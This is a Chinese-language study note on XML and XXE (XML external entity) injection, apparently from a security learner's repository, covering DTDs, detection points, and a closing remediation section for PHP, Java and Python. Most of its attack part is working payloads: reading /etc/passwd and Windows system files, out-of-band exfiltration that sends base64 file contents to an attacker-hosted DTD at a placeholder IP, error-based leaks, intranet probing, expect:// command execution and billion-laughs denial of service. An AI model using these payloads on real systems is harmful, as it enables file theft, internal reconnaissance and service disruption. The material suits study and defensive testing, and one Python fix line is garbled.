




# XML

## 基础

1. 定义

   > XML是可扩展标记语言（eXtensible Markup Language）的缩写，它是是一种数据表示格式，可以描述非常 复杂的数据结构，常用于传输和存储数据。

2. 与html的联系和区别

   - HTML 被设计用来显示数据
   - XML 被设计用来传输和存储数据

   > 对 XML 最好的描述是：
   >
   > **XML 是独立于软件和硬件的信息传输工具。**

3. 语法

   

4. 格式

   - XML声明：版本，编码信息（可选，如果存在就必须放在文档的首行）

   - DTD:Document Type Definition 即文档类型定义 (可选)

   - 文档元素

   - 典型xml文档例子

     ```xml
     <?xml version="1.0" encoding="UTF-8"?> <!--XML声明-->
     
     <!--DTD，这部分可选的-->          
     <!DOCTYPE foo [ 
         <!ELEMENT foo ANY >
         <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini" >
     ]>
     
     <!--文档元素--> 
     <note>
       <to>Tove</to>
       <from>Jani</from>
       <heading>Reminder</heading>
       <body>Don't forget me this weekend!</body>
     </note>
     <foo>&xxe;</foo>
     ```

     


## DTD与实体

### DTD

> DTD（文档类型定义）的作用是定义 XML 文档的合法构建模块。DTD 可以在 XML 文档内声明，也可以外部引用。

```xml
<!DOCTYPE note [
    <!ENTITY b >
]>
```

上面所示的就是一个DTD

```
<!DOCTYPE note [
    <!ENTITY b system "外部dtd地址">
]>
```

上面所示的就是一个外部DTD


### 实体

> DTD实体是用于定义引用普通文本或特殊字符的快捷方式的变量，可以内部声明或外部引用。

```xml-dtd
<!DOCTYPE foo [ 
	<!ENTITY hello "hello world" > 
]>

<foo>&hello</foo>
```

文档元素可以使用&来引用实体的值，`&hello`将被替换为`hello world`


#### 参数实体

XML参数实体是一种特殊的XML实体，只能在DTD中的其他地方引用

```xml-dtd
<!DOCTYPE foo [ 
	<!ENTITY % b "<!ENTITY b1 "awsl">">
    %b;
]>
```

可以看到参数实体用`% name`声明，引用时用`%name;`


#### 引入外部实体

```xml-dtd
<!DOCTYPE foo [ 
	<!ENTITY ext SYSTEM "file:///path/to/file" > 
]>
```

这里使用了file协议来引入外部实体，实际上还能支持如下协议，这也是xxe漏洞形成的原因


# XXE漏洞

## 概述

XXE 漏洞全称 XML External Entity Injection，即 xml 外部实体注入漏洞


## 漏洞成因

XXE 漏洞发 生在**应用程序解析 XML 输入时**，没有禁止**外部实体**的加载，而外部实体的引用可支持http，file等协议，通过利用这些协议进行攻击。


## 漏洞场景

### 黑盒

#### content-type测试

- 数据包中的content-type

  ```html
  application/xml
  text/xml
  ```

- http body

  

- 数据包请求头中Context-Type的值为application/json，更改为application/xml或者text/xml，观察响应包是否会解析xml，比如返回的报错信息中显示后端有处理xml的组件，然后插入payload测试

​	

#### xlsx，svg等文件上传功能点

- 利用EXCEL进行XXE攻击

  解压xlsx文件，在[Content_Types].xml中插入payload

  

  然后再重新打包为1.xlsx

  ```php
  # 也可以尝试在如下xml文件中插入payload
  xl/workbook.xml
  xl/worksheets/sheet1.xml
  _rels/.rels
  xl/_rels/workbook.xml.rels
  xl/theme/theme1.xml
  _rels/.rels
  docProps/app.xml
  docProps/core.xml
  xl/_rels/workbook.xml.rels
  xl/styles.xml
  xl/workbook.xml
  ```

  

- 上传svg，docx等xml格式的文件进行攻击

  1.svg

  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE note [
  <!ENTITY file SYSTEM "file:///etc/passwd" >
  ]>
  <svg height="100" width="1000">
    <text x="10" y="20">&file;</text>
  </svg>
  ```

- java--jar协议解压压缩包


### 白盒相关函数

#### php

```php
simplexml_import_dom()
```

需要注意的是PHP是使用libxml来解析XML的，但是**libxml2.9.0**开始就默认不解析外部实体，自然就不存在xxe漏洞。


#### java

```java
javax.xml.parsers.DocumentBuilder
javax.xml.parsers.SAXParser
javax.xml.parsers.SAXParserFactory
javax.xml.transform.TransformerFactory
javax.xml.validation.Validator
javax.xml.validation.SchemaFactory
javax.xml.transform.sax.SAXTransformerFactory
javax.xml.transform.sax.SAXSource
org.xml.sax.XMLReader
org.xml.sax.helpers.XMLReaderFactory
org.dom4j.io.SAXReader
org.jdom.input.SAXBuilder
org.jdom2.input.SAXBuilder
javax.xml.bind.Unmarshaller
javax.xml.xpath.XpathExpression
javax.xml.stream.XMLStreamReader
org.apache.commons.digester3.Digester
```


## 漏洞危害

```
文件读取
内网探针
拒绝服务攻击
命令执行
```


## 漏洞利用

### 实验环境

- https://github.com/c0ny1/xxe-lab php版本
- vulhub Apache solr XML 实体注入漏洞（CVE-2017-12629）


### 有回显

Demo

```php
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}
```

`username`为回显位

payload

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
    <!ENTITY xxe SYSTEM "file:///c:/windows/system.ini"> 
]>                                                         
```

```xml
<username>&xxe;</username>
```


### 无回显

#### 外带

php://filter读取对方服务器文件内容→引入外部实体（攻击服务器上的）→触发外部实体中的写入代码，将读取到的文件内容赋值给指定参数→接收参数，在攻击服务器监听或者查看日志，从而获取到对方服务器文件内容

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE test [
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///e:/test.txt">
    <!ENTITY % dtd SYSTEM "http://ip:8000/test.dtd">
    %dtd;
    %send;
]>
```

```xml-dtd
<!--test.dtd-->
<!ENTITY % payload
	"<!ENTITY &#x25; send SYSTEM 'http://ip:8888/?data=%file;'>"
>
%payload;
```

> 注意：test.dtd的内容，内部的%号要进行实体编码成&#x25（因为实体的值中不能有 %, 所以将其转成html实体编码 `%`）


#### 基于报错

构造一个错误的url并将泄露文件内容放在url中，通过这样的方式返回数据。

##### 引入服务器实体

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % xxe SYSTEM "http://ip:8000/xml.dtd"> 
    %xxe;
]>
```

xml.dtd

```xml-dtd
<!--通过执行error实体，以便通过尝试加载不存在的文件来带出目标文件的值，从而生成包含不存在文件的名称的错误消息，该文件是/etc/passwd文件的内容-->

<!ENTITY % file SYSTEM "file:///c:/windows/system.ini">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```




##### 引入本地系统文件--测试失败

https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///C:/Windows/System32/wbem/xml/cim20.dtd">
    <!ENTITY % SuperClass '
         >Your DTD code<!ENTITY test "test"
        '>
    %local_dtd;
]>
```

DTD code

```xml-dtd
<!ENTITY &#x25; file SYSTEM "file:///c:/windows/system.ini">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
```

payload

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///C:/Windows/System32/wbem/xml/cim20.dtd">
        <!ENTITY % SuperClass '>
         <!ENTITY &#x25; file SYSTEM "file:///c:/windows/system.ini">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error; <!ENTITY test "test"
        '>
    %local_dtd;
]>
```


##### 嵌套参数实体

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ELEMENT message ANY>
    <!ENTITY % para1 SYSTEM "file:///etc/passwd">
    <!ENTITY % para '
        <!ENTITY &#x25; para2 "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///&#x25;para1;&#x27;>">
        &#x25;para2;
    '>
    %para;
]>
```



不是所有的xml解析器都能解析嵌套参数实体


### 利用方式

#### 文件读取

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>        
<!DOCTYPE foo [ 
<!ENTITY rabbit SYSTEM "file:///文件路径" >
]>

<?xml version="1.0" encoding="utf-8"?> 
<!-- 使用php的filter过滤器读取含有xml保留字符的文件 -->
<!DOCTYPE roottag [
<!ENTITY  rabbit SYSTEM "php://filter/read=convert.base64-encode/resource=file:///e:/test.txt">]> 

<firstname>&rabbit;</firstname>
```


当不能使用过滤器时

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///f:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 
```

evil.dtd

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```

POST数据

```xml-dtd
<!-- &all是使用evil.dtd中的实体-->
<roottag>&all;</roottag>  
```


#### 列目录--JAVA

```xml-dtd
<!-- Root / -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE aa[
    <!ELEMENT bb ANY>
    <!ENTITY xxe SYSTEM "file:///">
]>
<root><foo>&xxe;</foo></root>
```


```xml-dtd
<!-- Root / -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE aa[
    <!ELEMENT bb ANY>
    <!ENTITY xxe SYSTEM "netdoc:///">
]>
<root><foo>&xxe;</foo></root>
```


#### 内网探测

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>        
<!DOCTYPE foo [ 
<!ELEMENT foo ANY >
<!ENTITY rabbit SYSTEM "http://内网ip:port" >
]>

<firstname>&rabbit;</firstname>
```


#### 命令执行

> 该 CASE 是在安装 expect 扩展的 PHP 环境里执行系统命令

```xml-dtd
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "expect://命令" >
]>
<x>&xxe;</x>
```


#### DOS攻击--没成功过

```xml-dtd
<?xml version="1.0"?> <!DOCTYPE lolz [  <!ENTITY lol "lol">  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;"> ]> <lolz>&lol9;</lolz> 
```

此测试可以在内存中将小型 XML 文档扩展到超过 3GB 而使服务器崩溃。
亦或者，如果目标是UNIX系统，

```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///dev/random" >]>
<foo>&xxe;</foo>
```

如果 XML 解析器尝试使用`/dev/random`文件中的内容来替代实体，则此示例会使服务器（使用 UNIX 系统）崩溃。


### 绕过

- 插入空格

  可以在`<?xml`或`<!DOCTYPE`后插入任意数量的空格

  

- 编码绕过

  ```
  UTF-7
  UTF-16 BE，UTF-16 LE
  UTF-32 BE、UTF-32LE、UTF-322143、UTF-323412
  EBCDIC
  ```

  ```xml-dtd
  cat payload.xml | iconv -f utf-8 -t utf-7 > payload.7.xml
  ```

  


### 工具

[7.XXEinjector：一款功能强大的自动化XXE注射工具 - bmjoker - 博客园 (cnblogs.com)](https://www.cnblogs.com/bmjoker/p/9614990.html)


## 漏洞修复

- 禁用外部实体

PHP: 

```php
libxml_disable_entity_loader(true); 
```

JAVA: 

```java
// SAXBuilder
SAXBuilder builder = new SAXBuilder();
builder.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
builder.setFeature("http://xml.org/sax/features/external-general-entities", false);
builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
builder.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);

// DocumentBuilder
DocumentBuilderFactory dbf =  DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
DocumentBuilder documentBuilder = dbf.newDocumentBuilder();


// SAXReader
SAXReader saxReader = new SAXReader();
saxReader.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
saxReader.setFeature("http://xml.org/sax/features/external-general-entities", false);
saxReader.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
saxReader.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);

// SAXTransformerFactory
SAXTransformerFactory sf = (SAXTransformerFactory) SAXTransformerFactory.newInstance();
sf.setAttribute(XMLConstants.ACCESS_EXTERNAL_DTD, "");
sf.setAttribute(XMLConstants.ACCESS_EXTERNAL_STYLESHEET, "");

// TransformerFactory
TransformerFactory tf = TransformerFactory.newInstance();      
tf.setAttribute(XMLConstants.ACCESS_EXTERNAL_DTD, "");
tf.setAttribute(XMLConstants.ACCESS_EXTERNAL_STYLESHEET, "");

// Unmarshaller 默认方法不存在xxe漏洞
```

 Python： 

```python
from lxml import etreexmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```

- 过滤用户提交的 XML 数据 

如过滤关键词：

```xml-dtd
<!DOCTYPE 和<!ENTITY，或者 SYSTEM 和 PUBLIC
```


# 参考文章

https://xz.aliyun.com/t/3357

https://r17a-17.github.io/2021/09/04/Java-XXE%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93

https://www.cnblogs.com/20175211lyz/p/11413335.html

https://xz.aliyun.com/t/6829#toc-4

**补充**：https://tttang.com/archive/1813/#toc__2

